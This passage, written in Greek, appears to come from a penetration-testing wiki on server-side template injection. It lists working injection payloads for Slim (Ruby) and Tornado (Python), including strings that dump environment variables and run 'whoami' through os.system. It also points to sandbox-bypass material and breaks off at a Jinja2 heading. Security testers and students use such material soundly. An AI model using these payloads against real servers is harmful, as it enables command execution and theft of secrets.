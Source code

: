 * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Slim (Ruby)

* `{ 7 * 7 }`
```
{ %x|env| }
```
**Περισσότερες πληροφορίες**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Python

Δείτε την παρακάτω σελίδα για να μάθετε κόλπα σχετικά με **την εκτέλεση αυθαίρετων εντολών παρακάμπτοντας τα sandboxes** στην python:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### Tornado (Python)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Error`
* `{{7*'7'}} = 7777777`
```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}





{{os.system('whoami')}}
{{os.system('whoami')}}
```
**Περισσότερες πληροφορίες**

* [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

### Jinja2 (Python)
